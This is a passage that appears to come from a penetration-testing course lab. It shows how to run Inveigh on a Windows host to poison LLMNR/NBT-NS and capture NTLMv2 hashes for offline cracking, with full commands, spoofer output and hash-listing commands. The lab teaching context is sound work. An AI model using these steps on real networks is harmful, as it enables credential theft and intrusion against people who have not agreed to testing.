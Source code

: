 ## Inveigh - Overview

If we end up with a Windows host as our attack box, our client provides us with a Windows box to test from, or we land on a Windows host as a local admin via another attack method and would like to look to further our access, the tool [Inveigh](https://github.com/Kevin-Robertson/Inveigh) works similar to Responder, but is written in PowerShell and C#. Inveigh can listen to IPv4 and IPv6 and several other protocols, including `LLMNR`, DNS, `mDNS`, NBNS, `DHCPv6`, ICMPv6, `HTTP`, HTTPS, `SMB`, LDAP, `WebDAV`, and Proxy Auth. The tool is available in the `C:\Tools` directory on the provided Windows attack host.

```powershell
PS C:\htb> Import-Module .\Inveigh.ps1
PS C:\htb> (Get-Command Invoke-Inveigh).Parameters

Key                     Value
---                     -----
ADIDNSHostsIgnore       System.Management.Automation.ParameterMetadata
KerberosHostHeader      System.Management.Automation.ParameterMetadata
ProxyIgnore             System.Management.Automation.ParameterMetadata
PcapTCP                 System.Management.Automation.ParameterMetadata
PcapUDP                 System.Management.Automation.ParameterMetadata
SpooferHostsReply       System.Management.Automation.ParameterMetadata
SpooferHostsIgnore      System.Management.Automation.ParameterMetadata
SpooferIPsReply         System.Management.Automation.ParameterMetadata
SpooferIPsIgnore        System.Management.Automation.ParameterMetadata
WPADDirectHosts         System.Management.Automation.ParameterMetadata
WPADAuthIgnore          System.Management.Automation.ParameterMetadata
ConsoleQueueLimit       System.Management.Automation.ParameterMetadata
ConsoleStatus           System.Management.Automation.ParameterMetadata
ADIDNSThreshold         System.Management.Automation.ParameterMetadata
ADIDNSTTL               System.Management.Automation.ParameterMetadata
DNSTTL                  System.Management.Automation.ParameterMetadata
HTTPPort                System.Management.Automation.ParameterMetadata
HTTPSPort               System.Management.Automation.ParameterMetadata
KerberosCount           System.Management.Automation.ParameterMetadata
LLMNRTTL                System.Management.Automation.ParameterMetadata

<SNIP>
```
  
LLMNR/NBT-NS Poisoning - from Windows
```powershell
PS C:\htb> Invoke-Inveigh Y -NBNS Y -ConsoleOutput Y -FileOutput Y

[*] Inveigh 1.506 started at 2022-02-28T19:26:30
[+] Elevated Privilege Mode = Enabled
[+] Primary IP Address = 172.16.5.25
[+] Spoofer IP Address = 172.16.5.25
[+] ADIDNS Spoofer = Disabled
[+] DNS Spoofer = Enabled
[+] DNS TTL = 30 Seconds
[+] LLMNR Spoofer = Enabled
[+] LLMNR TTL = 30 Seconds
[+] mDNS Spoofer = Disabled
[+] NBNS Spoofer For Types 00,20 = Enabled
[+] NBNS TTL = 165 Seconds
[+] SMB Capture = Enabled
[+] HTTP Capture = Enabled
[+] HTTPS Certificate Issuer = Inveigh
[+] HTTPS Certificate CN = localhost
[+] HTTPS Capture = Enabled
[+] HTTP/HTTPS Authentication = NTLM
[+] WPAD Authentication = NTLM
[+] WPAD NTLM Authentication Ignore List = Firefox
[+] WPAD Response = Enabled
[+] Kerberos TGT Capture = Disabled
[+] Machine Account Capture = Disabled
[+] Console Output = Full
[+] File Output = Enabled
[+] Output Directory = C:\Tools
WARNING: [!] Run Stop-Inveigh to stop
[*] Press any key to stop console output
WARNING: [-] [2022-02-28T19:26:31] Error starting HTTP listener
WARNING: [!] [2022-02-28T19:26:31] Exception calling "Start" with "0" argument(s): "An attempt was made to access a
socket in a way forbidden by its access permissions" $HTTP_listener.Start()
[+] [2022-02-28T19:26:31] mDNS(QM) request academy-ea-web0.local received from 172.16.5.125 [spoofer disabled]
[+] [2022-02-28T19:26:31] mDNS(QM) request academy-ea-web0.local received from 172.16.5.125 [spoofer disabled]
[+] [2022-02-28T19:26:31] LLMNR request for academy-ea-web0 received from 172.16.5.125 [response sent]
[+] [2022-02-28T19:26:32] mDNS(QM) request academy-ea-web0.local received from 172.16.5.125 [spoofer disabled]
[+] [2022-02-28T19:26:32] mDNS(QM) request academy-ea-web0.local received from 172.16.5.125 [spoofer disabled]
[+] [2022-02-28T19:26:32] LLMNR request for academy-ea-web0 received from 172.16.5.125 [response sent]
[+] [2022-02-28T19:26:32] mDNS(QM) request academy-ea-web0.local received from 172.16.5.125 [spoofer disabled]
[+] [2022-02-28T19:26:32] mDNS(QM) request academy-ea-web0.local received from 172.16.5.125 [spoofer disabled]
[+] [2022-02-28T19:26:32] LLMNR request for academy-ea-web0 received from 172.16.5.125 [response sent]
[+] [2022-02-28T19:26:33] mDNS(QM) request academy-ea-web0.local received from 172.16.5.125 [spoofer disabled]
[+] [2022-02-28T19:26:33] mDNS(QM) request academy-ea-web0.local received from 172.16.5.125 [spoofer disabled]
[+] [2022-02-28T19:26:33] LLMNR request for academy-ea-web0 received from 172.16.5.125 [response sent]
[+] [2022-02-28T19:26:34] TCP(445) SYN packet detected from 172.16.5.125:56834
[+] [2022-02-28T19:26:34] SMB(445) negotiation request detected from 172.16.5.125:56834
[+] [2022-02-28T19:26:34] SMB(445) NTLM challenge 7E3B0E53ADB4AE51 sent to 172.16.5.125:56834

<SNIP>
```

## C# Inveigh (InveighZero)

The PowerShell version of Inveigh is the original version and is no longer updated. The tool author maintains the C# version, which combines the original PoC C# code and a C# port of most of the code from the PowerShell version. Before we can use the C# version of the tool, we have to compile the executable. To save time, we have included a copy of both the PowerShell and compiled executable version of the tool in the `C:\Tools` folder on the target host in the lab, but it is worth walking through the exercise (and best practice) of compiling it yourself using Visual Studio.

Let's go ahead and run the C# version with the defaults and start capturing hashes.

  LLMNR/NBT-NS Poisoning - from Windows

```powershell
PS C:\htb> .\Inveigh.exe
```

We can hit the `esc` key to enter the console while Inveigh is running.
After typing `HELP` and hitting enter, we are presented with several options:

We can quickly view unique captured hashes by typing `GET NTLMV2UNIQUE`.

We can type in `GET NTLMV2USERNAMES` and see which usernames we have collected. This is helpful if we want a listing of users to perform additional enumeration against and see which are worth attempting to crack offline using Hashcat.
